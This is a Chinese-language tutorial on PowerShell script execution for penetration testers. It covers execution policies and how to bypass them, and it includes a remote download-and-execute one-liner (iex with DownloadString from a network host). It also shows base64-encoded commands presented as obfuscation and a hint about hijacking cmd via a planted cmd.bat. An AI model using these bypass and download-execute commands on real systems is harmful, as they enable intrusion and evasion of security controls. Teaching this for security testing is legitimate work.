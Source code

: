 # Powershell(3)-脚本执行基础


## 开始之前 
我们在开始之前先来介绍在windows平台中常用到的几种脚本

### Bat
这就是我们常用的Bat脚本，全名为批处理文件，脚本中就是我们在CMD中使用到的命令，这里提一个小问题：
CMD的命令行执行命令的优先级是`.bat > .exe`，那么假如我放一个cmd.bat在system32目录下，那么优先执行的是cmd.bat，这里面的内容就变得不可描述起来了

### VBscript

执行vbs就是常说的vbscript,是微软为了方便自动化管理windows而推出的脚本语言，这里了解一下即可，不是文章重点。

```vbs
一个小例子通过vbs操作WMI
Set wmi = GetObject("winmgmts:")
Set collection = wmi.ExecQuery("select * from Win32_Process")
For Each process in collection
WScript.Echo process.getObjectText_
Next
```

## Powershell

这就是我们的主角，在现在和未来一定是powershell占据主要地位(对于这一点搞Win多一点的朋友一定不会怀疑)，首先我们来看一个简单的例子

```powershell
script.ps1:
# 脚本内容
function test-conn { Test-Connection  -Count 2 -ComputerName $args}

# 载入脚本文件
.\script.ps1

# 调用函数
test-conn localhost
```

### Powershell执行策略

那么你可能会在调用脚本的时候出现报错，这是powershell的安全执行策略，下面我们来了解一下执行策略：
PowerShell 提供了 Restricted、AllSigned、RemoteSigned、Unrestricted、Bypass、Undefined 六种类型的执行策略
简单介绍各种策略如下：

|名称|说明|
|:------|:------|
|Restricted|受限制的，可以执行单个的命令，但是不能执行脚本Windows 8, Windows Server 2012, and Windows 8.1中默认就是这种策略，所以是不能执行脚本的，执行就会报错，那么如何才能执行呢？Set-ExecutionPolicy -ExecutionPolicy Bypass就是设置策略为Bypass这样就可以执行脚本了。|
|AllSigned|AllSigned 执行策略允许执行所有具有数字签名的脚本|
|RemoteSigned|当执行从网络上下载的脚本时，需要脚本具有数字签名，否则不会运行这个脚本。如果是在本地创建的脚本则可以直接执行，不要求脚本具有数字签名。|
|Unrestricted|这是一种比较宽容的策略，允许运行未签名的脚本。对于从网络上下载的脚本，在运行前会进行安全性提示。需要你确认是否执行脚本|
|Bypass|Bypass 执行策略对脚本的执行不设任何的限制，任何脚本都可以执行，并且不会有安全性提示。|
|Undefined|Undefined 表示没有设置脚本策略。当然此时会发生继承或应用默认的脚本策略。|



那么我们如何绕过这些安全策略呢？下面提供几种方法，网上还有很多的绕过方法，大家可以自行研究：

|名称|说明|
|:---|:---|
|Get-ExecutionPolicy|获取当前的执行策略|
|Get-Content .\test.ps1 \| powershell.exe -noprofile -|通过管道输入进ps|
|powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://192.168.1.2/test.ps1')"|通过远程下载脚本来绕过|
|$command = "Write-Host 'Hello World!'"<br>$bytes = [System.Text.Encoding]::Unicode.GetBytes($command) <br>$encodedCommand = [Convert]::ToBase64String($bytes) <br>powershell.exe -EncodedCommand $encodedCommand|通过BASE64编码执行|

### powershell的脚本调用方法：

1. 如果脚本是直接写的代码而不是只定义了函数那么直接执行脚本.\script.ps1即可
2. 但是如果是载入里面的函数需要`.+空格+.\script.ps1`
3. 或者使用Import-Module .\script.ps1, 这样才能直接使用脚本的函数

## 通过控制台执行Powershell

对于我们安全测试人员通常获取到的一个Shell是CMD的, 那么我们想要尽可能少的操作就可以直接通过控制台来执行powershell的命令, 那么先来看一个简单的例子:

![](./img/ps3/1.png)
可以看到我们通过CMD界面执行了Powershell的代码, 那么其实这样的执行方式在真实的安全测试环境中利用更多, 下面是一个Powershell通过这种方式执行的所有可选的参数:

```powershell
PowerShell[.exe]
       [-PSConsoleFile <file> | -Version <version>]
       [-EncodedCommand <Base64EncodedCommand>]
       [-ExecutionPolicy <ExecutionPolicy>]
       [-File <filePath> <args>]
       [-InputFormat {Text | XML}] 
       [-NoExit]
       [-NoLogo]
       [-NonInteractive] 
       [-NoProfile] 
       [-OutputFormat {Text | XML}] 
       [-Sta]
       [-WindowStyle <style>]
       [-Command { - | <script-block> [-args <arg-array>]
                     | <string> [<CommandParameters>] } ]

PowerShell[.exe] -Help | -? | /?
```
|名称|解释|
|:--|:--|
|-Command |需要执行的代码|
|-ExecutionPolicy |设置默认的执行策略，一般使用Bypass |
|-EncodedCommand | 执行Base64代码|
|-File | 这是需要执行的脚本名|
|-NoExit | 执行完成命令之后不会立即退出，比如我们执行powerhsell whoami 执行完成之后会推出我们的PS会话，如果我们加上这个参数，运行完之后还是会继续停留在PS的界面|
|-NoLogo | 不输出PS的Banner信息|
|-Noninteractive | 不开启交互式的会话|
|-NoProfile | 不使用当前用户使用的配置文件|
|-Sta | 以单线程模式启动ps|
|-Version | 设置用什么版本去执行代码|
|-WindowStyle | 设置Powershell的执行窗口，有下面的参数Normal, Minimized, Maximized, or Hidden|

最后举一个执行Base64代码的例子:

1. 我们先试用上面一个表格提到的编码代码编码命令`whoami`, 得到字符串:`dwBoAG8AYQBtAGkACgA=`
2. 通过下面的命令来执行代码

```powershell
powershell -EncodedCommand dwBoAG8AYQBtAGkACgA=
```
![](./img/ps3/2.png)

那么这种需求在什么地方呢? 比如我们的代码特别长或者会引起一起歧义的时候就需要我们使用这种方式去执行, 同时也是一个混淆的方式。
